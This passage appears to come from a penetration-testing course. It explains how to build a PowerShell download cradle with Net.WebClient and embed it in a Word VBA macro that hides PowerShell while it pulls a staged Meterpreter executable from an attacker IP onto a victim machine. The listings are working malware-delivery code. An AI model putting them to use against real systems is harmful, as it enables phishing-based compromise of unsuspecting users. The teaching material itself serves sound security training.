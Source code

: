 Since PowerShell has access to the .NET framework, we can easily implement specialized techniques such as download cradles to download content (like second stage payloads) from external web servers. The most commonly-used variant is the [_Net.WebClient_ class](https://learn.microsoft.com/en-us/dotnet/api/system.net.webclient?view=net-8.0). By instantiating an object from this class, we can call the [DownloadFile method](https://learn.microsoft.com/en-us/dotnet/api/system.net.webclient.downloadfile?view=net-8.0) to download any file from a web server to the victim.

In the following example, we'll invoke the _DownloadFile_ method. We'll assemble a full script, then reduce it to a single one-liner.

_DownloadFile_ takes two arguments: the URL of the file to be downloaded and the output filename. The entire download procedure can be written in just four lines of PowerShell:

```
$url = "http://192.168.119.120/msfstaged.exe"
$out = "msfstaged.exe"
$wc = New-Object Net.WebClient
$wc.DownloadFile($url, $out)
```

> Listing 7 - PowerShell code to download Meterpreter executable

In this code listing, we created a variable for the file we want to download, then a variable for the name of the local file. Next, we instantiated the _Net.WebClient_ class to create a download cradle from which we then invoke the _DownloadFile_ method to download the file. In this case, we used the same staged Meterpreter executable we created earlier.

We can compress this into a single one-liner:

```
(New-Object System.Net.WebClient).DownloadFile('http://192.168.119.120/msfstaged.exe', 'msfstaged.exe')
```

> Listing 8 - PowerShell one-liner to download Meterpreter executable

Let's embed this into our Word macro using VBA and have PowerShell do the heavy lifting for us. We will slowly build it here, piece by piece, and then review the completed code.

Most PowerShell download cradles use HTTP or HTTPS, but we could use [TXT records](https://en.wikipedia.org/wiki/TXT_record) and a [DNS transport](https://github.com/evilmog/evilmog/wiki/DNS-Download-Cradle) instead.

As an overview, we'll set up a download cradle by converting our PowerShell string to work in VBA. We'll wait for the file to download and then execute the file.

Let's start writing our VBA code. The first step is to declare our string variable and fill that string with the PowerShell download cradle code. Next, we'll use the _Shell_ method to start PowerShell with the one-liner as an argument. We'll then instruct the _Shell_ method to run the code and hide the output from the user.

This code segment will download the file to the victim's machine:

```
Dim str As String
str = "powershell (New-Object System.Net.WebClient).DownloadFile('http://192.168.119.120/msfstaged.exe', 'msfstaged.exe')"
Shell str, vbHide
```

